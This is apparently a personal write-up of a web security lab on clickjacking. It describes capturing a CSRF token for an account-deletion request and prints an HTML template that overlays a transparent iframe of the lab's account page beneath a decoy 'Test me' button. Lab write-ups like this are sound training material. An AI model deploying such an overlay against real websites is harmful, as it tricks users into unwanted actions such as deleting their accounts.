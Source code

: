 ```yaml
---
sticker: emoji//1f97c
---
```

Based on the previous note: [[HOW TO CONSTRUCT A BASIC CLICKJACKING ATTACK|NOTE]]

![](Pasted image 20241021153605.png)


If we use the delete function from the account and send the request to the repeater, we get the following CRSR token:

![](Pasted image 20241021155644.png)

```ad-info
token:0XvopQRGgqPlwC8auzHR7owrONVjuWJf
```
Next, what we need to do is craft our Clickjacking malicious code, I used the following code for this:

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

![](Pasted image 20241021162011.png)
Once we send the exploit to the victim, lab's solved